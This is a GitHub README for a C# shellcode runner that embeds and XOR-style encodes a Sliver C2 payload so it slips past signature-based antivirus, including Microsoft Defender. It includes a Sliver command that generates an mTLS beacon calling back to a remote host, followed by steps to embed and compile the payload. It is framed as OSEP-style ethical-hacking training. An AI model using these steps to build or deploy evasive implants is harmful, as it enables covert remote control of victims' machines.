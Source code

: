 # Sliver_C#_Runner_XoR 

There is nothing special going on here; these are super basic methods. As of today, this will get caught by most antiviruses and will work around updated Microsoft Defender. 

## Introduction

Welcome to the latest initiative of the Digital Honk Project, focusing on the practical application of cybersecurity techniques within Windows environments. This project adapts methodologies taught in the OSEP course, designed to facilitate the execution of payloads. It underscores the critical importance of comprehending the underlying mechanisms of cybersecurity and ethical hacking practices.

## Key Features

- Execution of shellcode from embedded resources within .NET applications, employing a lighter touch without the AMSI bypass.
- Custom payload encoding schemes designed to sidestep signature-based detection gracefully, just as a goose might avoid detection in a digital pond.
- Demonstrates how to embed digital feathers (payloads) into the pond (application) seamlessly and execute them without ruffling any feathers.

## Getting Started

## Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

## Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```bash
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

## Execution
Upon running the compiled application, your digital goose begins its adventure. Watch as it demonstrates the elegance of executing embedded payloads, navigating the waters of cybersecurity with ease and poise.

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

Special thanks to the Sliver C2 framework for the payload generation capabilities.
Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
